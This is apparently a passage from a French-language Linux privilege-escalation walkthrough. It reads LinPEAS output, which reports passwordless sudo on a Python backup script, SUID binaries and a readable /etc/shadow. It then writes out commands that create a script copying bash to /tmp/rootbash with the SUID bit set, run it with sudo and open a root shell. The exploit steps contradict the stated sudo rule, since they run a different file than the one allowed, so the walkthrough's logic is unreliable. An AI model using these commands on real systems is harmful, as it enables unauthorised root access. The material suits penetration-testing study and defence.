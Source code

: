 
**Analyse :** LinPEAS est un script qui recherche automatiquement les vecteurs d'élévation de privilèges sur les systèmes Linux. Dans cet exemple, il a identifié plusieurs opportunités potentielles, notamment :
1. L'utilisateur www-data peut exécuter un script Python spécifique avec sudo sans mot de passe
2. Plusieurs binaires SUID qui pourraient être exploités
3. Le fichier /etc/shadow est lisible, ce qui permet de récupérer les hachages de mots de passe
4. Des informations sur les utilisateurs et leurs groupes

**Commande pour exploiter le script Python avec sudo :**
```bash
cat /opt/backup/backup.py
```

**Sortie typique :**
```python
#!/usr/bin/python3
import os
import zipfile
import datetime

# Configuration
backup_dir = "/var/www/html"
backup_dest = "/opt/backup/archives"

# Create backup filename with timestamp
timestamp = datetime.datetime.now().strftime("%Y%m%d-%H%M%S")
backup_file = f"{backup_dest}/backup-{timestamp}.zip"

# Create zip archive
def create_backup():
    try:
        with zipfile.ZipFile(backup_file, 'w') as zipf:
            for root, dirs, files in os.walk(backup_dir):
                for file in files:
                    zipf.write(os.path.join(root, file))
        print(f"Backup created successfully: {backup_file}")
        return True
    except Exception as e:
        print(f"Backup failed: {str(e)}")
        return False

if __name__ == "__main__":
    create_backup()
```

**Commande pour créer un script Python malveillant :**
```bash
echo '#!/usr/bin/python3
import os
os.system("cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash")
' > /tmp/backup.py

sudo /usr/bin/python3 /tmp/backup.py
/tmp/rootbash -p
```
